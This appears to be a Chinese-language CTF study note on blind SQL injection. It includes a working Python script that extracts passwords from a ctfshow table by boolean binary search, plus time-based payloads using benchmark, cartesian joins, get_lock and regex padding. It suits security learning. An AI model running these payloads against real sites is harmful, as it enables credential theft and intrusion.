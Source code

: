 - `like()`
#### 脚本
```python
import requests

url = ""

result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) >> 1
        payload = f'1=if(ascii(substr((select  password from ctfshow_user4 limit 24,1),{i},1))>{mid},1,0) -- -'
        r = requests.get(url + payload)
        # 回显信息
        if "admin" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)

```
### 时间盲注
#### 函数
- `if()
- `sleep()` 及其替代
	- `benchmark(count,expr)`
		- count参数代表的是执行的次数
		- expr参数代表的是执行的表达式
		- `select benchmark(10000000,md5(0x41))` 
	- 笛卡尔积
		- `SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C;`
	- `get_lock(str,timeout)`
		- get_lock会按照key来加锁，别的客户端再以同样的key加锁时就加不了了，处于等待状态。在一个session中锁定变量，同时通过另外一个session执行，将会产生延时。
		- 使用这种方法进行诸如判断时，必须要提供长连接，即`mysql_pconnect`
		- python 脚本中间需要`time.sleep(90)`让客户端认为是另一个用户，
		- payload 做一个ascii的判断就可以，放到1/0的位置
		- ![](attachments/Pasted%20image%2020240221131605.png)
	- `rlike`  通过`rpad`或`repeat`构造长字符串，加以计算量大的pattern，通过repeat的参数可以控制延时长短 `regexp`也可以
		- `rpad(str,len,padstr)`
			- rpad(str,len,padstr) 返回字符串 str, 其右边由字符串padstr 填补到len 字符长度。假如str 的长度大于len, 则返回值被缩短至 len 字符。
		- `repeat(str,count)`
			- 返回由字符串str重复count次的字符串， 如果计数小于1，则返回一个空字符串。返回NULL如果str或count为NULL。